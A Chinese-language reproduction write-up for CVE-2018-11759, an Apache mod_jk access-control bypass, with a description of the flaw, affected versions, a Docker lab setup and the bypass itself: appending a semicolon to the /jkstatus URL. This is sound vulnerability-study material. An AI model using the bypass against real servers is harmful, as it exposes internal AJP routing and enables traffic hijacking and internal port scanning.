



Apache Mod_jk 访问控制权限绕过 CVE-2018-11759¶
漏洞描述¶
Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。
由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。 如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。 如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。
漏洞影响¶
Apache Mod_jk Connector 1.2.0 ~ 1.2.44
环境搭建¶
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
访问 http://xxx.xxx.xxx.xxx:80 成功即可

漏洞复现¶
访问 http://xxx.xxx.xxx.xxx/jkstatus 显示无权限访问
Forbidden
You don't have permission to access /jkstatus on this server.

访问 http://xxx.xxx.xxx.xxx/jkstatus; 即可绕过
- 注意是在url后面加上了一个;
